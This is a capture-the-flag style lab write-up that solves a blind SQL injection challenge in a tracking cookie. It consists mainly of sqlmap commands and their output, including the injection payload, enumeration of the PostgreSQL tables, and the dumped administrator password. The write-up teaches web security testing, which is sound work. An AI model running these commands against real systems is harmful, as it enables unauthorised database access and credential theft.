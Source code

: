 ```yaml
---
layout: post
title:  "Blind SQL injection with conditional responses"
date:   2024-09-22 09:39:54 +0530
categories: [BSCP, SQLi]
---
```


## Objective 

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

## Solution 

When I put `'` into all the sensitive areas like cookie, param value and Interrstingly, the trackingId value is vulnerable to Blind SQL injection 

Because when u don't add `'` into `trackingId` you will see a string called `Welcome back` 

![]({{ site.baseurl }}/assets/images/sqli47.png)

But when you add `'` and `Welcome back` string disappears 

![]({{ site.baseurl }}/assets/images/sqli48.png)

With `SQLmap` we can automate further and here we found this application is vulnerable to a SQL injection and it uses `PostgreSQL` 

```sh
$ sqlmap -u "https://0aba00e704a0e247d90aa592003b00b9.web-security-academy.net/filter?category=Pets" --cookie "TrackingId=4HWFjkvkQS0pdMwd; session=E5Vnrbwa0Xd09dJur4uOtXLo7VR2w65i" --level 3 

[11:05:47] [INFO] Cookie parameter 'TrackingId' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="Welcome back!")
[11:05:47] [INFO] testing 'Generic inline queries'
[11:05:47] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[11:05:48] [INFO] testing 'PostgreSQL error-based - Parameter replace'
[11:05:48] [INFO] testing 'PostgreSQL inline queries'
[11:05:48] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[11:05:49] [INFO] testing 'PostgreSQL < 8.2 stacked queries (Glibc - comment)'
[11:05:49] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[11:05:55] [INFO] testing 'PostgreSQL > 8.1 time-based blind - Parameter replace'
[11:05:55] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:05:55] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:05:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[11:05:58] [INFO] target URL appears to have 1 column in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
[11:06:19] [INFO] target URL appears to be UNION injectable with 1 columns
[11:06:21] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
[11:06:31] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[11:06:40] [INFO] testing 'Generic UNION query (random number) - 21 to 40 columns'
[11:06:49] [INFO] testing 'Generic UNION query (NULL) - 41 to 60 columns'
[11:06:59] [INFO] checking if the injection point on Cookie parameter 'TrackingId' is a false positive
Cookie parameter 'TrackingId' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 480 HTTP(s) requests:
---
Parameter: TrackingId (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: TrackingId=4HWFjkvkQS0pdMwd' AND 9875=9875-- jCQf; session=E5Vnrbwa0Xd09dJur4uOtXLo7VR2w65i
---
[11:07:12] [INFO] testing PostgreSQL
[11:07:12] [INFO] confirming PostgreSQL
[11:07:13] [INFO] the back-end DBMS is PostgreSQL
back-end DBMS: PostgreSQL
[11:07:24] [INFO] fetched data logged to text files under '/Users/nits/.local/share/sqlmap/output/0aba00e704a0e247d90aa592003b00b9.web-security-academy.net'

[*] ending @ 11:07:24 /2024-09-22/
```

Dumping the database and found the `administrator` credentials being dumped out 

```sh
 nits@FWS-CHE-LT-8869  /tmp  sqlmap -u "https://0aba00e704a0e247d90aa592003b00b9.web-security-academy.net/filter?category=Pets" --cookie "TrackingId=4HWFjkvkQS0pdMwd; session=E5Vnrbwa0Xd09dJur4uOtXLo7VR2w65i" --level 3 --dbms="postgreSQL" --dump
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.9#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:08:20 /2024-09-22/

[11:08:21] [INFO] testing connection to the target URL
[11:08:22] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: TrackingId (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: TrackingId=4HWFjkvkQS0pdMwd' AND 9875=9875-- jCQf; session=E5Vnrbwa0Xd09dJur4uOtXLo7VR2w65i
---
[11:08:22] [INFO] testing PostgreSQL
[11:08:22] [INFO] confirming PostgreSQL
[11:08:22] [INFO] the back-end DBMS is PostgreSQL
back-end DBMS: PostgreSQL
[11:08:22] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[11:08:22] [INFO] fetching current database
[11:08:22] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[11:08:22] [INFO] retrieved: 
do you want to URL encode cookie values (implementation specific)? [Y/n] n
public
[11:08:51] [WARNING] on PostgreSQL you'll need to use schema names for enumeration as the counterpart to database names on other DBMSes
[11:08:51] [INFO] fetching tables for database: 'public'
[11:08:51] [INFO] fetching number of tables for database 'public'
[11:08:51] [INFO] retrieved: 2
[11:08:55] [INFO] retrieved: tracking
[11:09:30] [INFO] retrieved: users
[11:09:53] [INFO] fetching columns for table 'tracking' in database 'public'
[11:09:53] [INFO] retrieved: 1
[11:09:56] [INFO] retrieved: id
[11:10:11] [INFO] fetching entries for table 'tracking' in database 'public'
[11:10:11] [INFO] fetching number of entries for table 'tracking' in database 'public'
[11:10:11] [INFO] retrieved: 1
[11:10:14] [INFO] retrieved: 4HWFjkvkQS0pdMwd
Database: public
Table: tracking
[1 entry]
+------------------+
| id               |
+------------------+
| 4HWFjkvkQS0pdMwd |
+------------------+

[11:11:38] [INFO] table 'public.tracking' dumped to CSV file '/Users/nits/.local/share/sqlmap/output/0aba00e704a0e247d90aa592003b00b9.web-security-academy.net/dump/public/tracking.csv'
[11:11:38] [INFO] fetching columns for table 'users' in database 'public'
[11:11:38] [INFO] retrieved: 3
[11:11:41] [INFO] retrieved: email
[11:11:58] [INFO] retrieved: password
[11:12:32] [INFO] retrieved: username
[11:13:02] [INFO] fetching entries for table 'users' in database 'public'
[11:13:02] [INFO] fetching number of entries for table 'users' in database 'public'
[11:13:02] [INFO] retrieved: 3
[11:13:06] [INFO] retrieved:  
[11:13:11] [INFO] retrieved: 5hfnoaj3hayybellcxwy
[11:14:22] [INFO] retrieved: administrator
[11:15:15] [INFO] retrieved:  
[11:15:20] [INFO] retrieved: 
```

With those credentials logged in as `administrator` and lab is solved 

![]({{ site.baseurl }}/assets/images/sqli49.png)